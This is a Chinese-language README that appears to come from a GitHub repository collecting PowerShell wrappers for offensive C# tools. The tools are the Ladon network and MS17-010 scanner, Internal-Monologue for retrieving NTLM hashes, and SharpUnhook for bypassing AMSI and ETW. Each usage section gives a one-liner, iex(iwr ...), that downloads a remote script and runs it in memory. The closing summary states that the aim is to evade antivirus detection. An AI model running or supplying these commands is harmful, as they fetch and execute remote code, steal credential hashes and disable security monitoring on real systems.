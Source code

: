



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# 1.Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)
# 2.Invoke-Internalmonologue

Internalmonologue

Internalmonologue：在不接触 LSASS 的情况下检索 NTLM 哈希:https://github.com/eladshamir/Internal-Monologue

用法：
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-Internalmonologue.ps1)
```

# 2.Invoke-SharpUnhook.ps1
SharpUnhook用来规避AMSI的内存检测、ETW的监控和hook了ring3的API，或许它仍然会被高级防病毒检测，
这只是一个例子，不要依赖它:https://github.com/GetRektBoy724/SharpUnhooker

用法：
远程加载
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-SharpUnhook.ps1)
```
本地加载

```
Import-Module .\Invoke-SharpUnhook.ps1
```
![image](https://user-images.githubusercontent.com/89376703/200115967-953b394b-90ad-477c-b12c-7370c73fe667.png)



### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
